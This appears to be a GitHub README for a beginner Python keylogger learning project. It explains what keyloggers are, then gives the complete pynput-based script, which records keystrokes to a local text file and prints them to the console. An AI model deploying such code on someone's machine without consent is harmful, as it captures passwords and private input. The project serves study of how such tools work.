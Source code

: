 # Basic Python Keylogger

---

This is a simple keylogger created in Python using `pynput`. The project was built in Visual Studio Code as part of my learning journey into cybersecurity and ethical hacking. It is intended **purely for educational purposes** — please do not use this unethically or without consent.

---

## What is a Keylogger?

A keylogger is a tool that records every keystroke made on a keyboard. It is often used to monitor user input and store that input into a file. While it can be used maliciously, it is also useful for educational demonstrations, user testing, and parental controls (when legally and ethically applied).

---

## Installation

Make sure Python is installed, then install the required package using the command below:

```bash
python -m pip install pynput

# Import the keyboard listener module from pynput
from pynput import keyboard

# Define the function to run when a key is pressed
def keyPressed(key):
    print(str(key))  # Print the pressed key to the console

    # Open or create a text file to store the logged keys
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Try to write the character to the file
            char = key.char
            logKey.write(char)
        except:
            # If it’s a special key (e.g. Enter, Shift), it might not have a char attribute
            print("Error getting char")

# Only run this section if the script is executed directly (not imported)
if __name__ == "__main__": 
    # Create a listener that triggers keyPressed whenever a key is pressed
    listener = keyboard.Listener(on_press=keyPressed)
    
    # Start the listener in the background
    listener.start()
    
    # Keep the program running with user input to prevent it from closing
    input()
